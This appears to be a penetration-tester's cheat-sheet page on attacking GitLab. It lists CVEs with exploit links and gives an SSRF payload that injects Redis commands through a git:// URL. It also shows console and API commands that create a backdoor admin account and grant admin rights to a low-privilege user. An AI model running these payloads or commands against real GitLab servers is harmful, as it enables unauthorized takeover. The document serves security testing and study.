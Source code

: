 # GitLab

* [https://devcraft.io/assets/hacktivitycon-slides.pdf](https://devcraft.io/assets/hacktivitycon-slides.pdf)
* [https://github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)




## SSRF > Redis > RCE (CE/EE)

**CVE-2018-19571, CVE-2018-19585**

* [https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293](https://gitlab.com/gitlab-org/gitlab-foss/-/issues/41293)
* [https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)
* [https://www.exploit-db.com/exploits/49334](https://www.exploit-db.com/exploits/49334)

Also possible to use this payload (instead of IPv6) to bypass filter checks for localhost, but works only with `git://` scheme:

```
git://127.0.0.1:6379/%0a<REDIS_COMMANDS>
```




## Path Traversal > LFI > RCE (CE/EE)

**CVE-2020-10977**

* [https://xakep.ru/2020/05/26/gitlab-exploit/](https://xakep.ru/2020/05/26/gitlab-exploit/)
* [https://www.exploit-db.com/exploits/49076](https://www.exploit-db.com/exploits/49076)




## Path Traversal > File Write > RCE (EE)

**CVE-2019-19088**

* [https://gitlab.com/gitlab-org/gitlab/-/issues/36029](https://gitlab.com/gitlab-org/gitlab/-/issues/36029)




## gitlab-rails

Add new admin user from console:

```
$ sudo gitlab-rails console
irb(main):001:0 > ActiveRecord::Base.logger = Logger.new($stdout)
irb(main):002:0 > User.find(1)
=> #<User id:1 @root>
irb(main):003:0 > user = User.create(:username => 'snovvcrash', :password => 'Passw0rd!', :password_confirmation => 'Passw0rd!', :admin => true, :name => snovvcrash, :email => snovvcrash@snovvcrash.rocks)
irb(main):004:0 > user.save!
irb(main):005:0 > user.confirmation_token
=> "ZVrM4KsyEdSoTJvo8kx_"
```

Then activate the account by navigating to `https://gitlab.megacorp.local/users/confirmation?confirmation_token=ZVrM4KsyEdSoTJvo8kx_`.

Grant a low-priv user admin's privileges via API:

```bash
# Check token priveleges
$ curl -sX GET -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/user" | jq '.is_admin'
# Grant low-priv user admin's privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=true" | jq '.is_admin'
# Revert low-priv user's original privileges
$ curl -sX PUT -H "PRIVATE-TOKEN: $ADMIN_TOKEN" "https://git.megacorp.local/api/v4/users/$LOWPRIV_ID" -d "admin=false" | jq '.is_admin'
```
